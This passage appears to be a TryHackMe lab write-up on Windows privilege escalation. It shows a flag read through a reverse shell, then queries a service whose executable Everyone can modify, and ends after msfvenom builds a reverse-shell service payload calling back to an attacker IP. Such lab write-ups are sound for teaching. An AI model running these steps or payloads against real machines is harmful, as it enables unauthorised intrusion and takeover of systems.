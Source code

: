 9. `cat <FILE LOCATION>` from our reverse shell to display the contents of the text file containing this task's flag
```PowerShell
C:\>type C:\Users\taskusr1\Desktop\flag.txt
type C:\Users\taskusr1\Desktop\flag.txt
THM{TASK_COMPLETED}
```


**TASK COMPLETED!**

## Abusing Service Misconfigurations

### Insecure Permissions on Service Executable

1. Started this task's machine
2. `sc qc <SERVICE>` from the compromised Windows machine to query our target service's query configuration options
```PowerShell
C:\Users\thm-unpriv>sc qc WindowsScheduler
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: WindowsScheduler
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\PROGRA~2\SYSTEM~1\WService.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : System Scheduler Service
        DEPENDENCIES       :
        SERVICE_START_NAME : .\svcusr1
```

3. `icacls <FILENAME>` from the compromised Windows machine to display the security permissions and ACLs (Access Control Lists) for our target service's `BINARY_PATH_NAME` executable, which revealed that users in the "Everyone" group has I (`Inheritable Permissions`) and M (`Modify Permissions`) permissions for this executable file
```PowerShell
C:\Users\thm-unpriv>icacls C:\PROGRA~2\SYSTEM~1\WService.exe
C:\PROGRA~2\SYSTEM~1\WService.exe Everyone:(I)(M)
                                  NT AUTHORITY\SYSTEM:(I)(F)
                                  BUILTIN\Administrators:(I)(F)
                                  BUILTIN\Users:(I)(RX)
                                  APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                  APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

4. `msfvenom -p <PAYLOAD> LHOST=<ATTACKER IP> LPORT=<PORT NUMBER> -f <PAYLOAD FORMAT> -o <OUTPUT FILE>` from our attack machine to generate a custom reverse shell payload executable (.exe)
```Bash
root@ip-10-10-6-207:~# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.6.207 LPORT=9999 -f exe-service -o ReverseShell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe-service file: 48640 bytes
Saved as: ReverseShell.exe
```
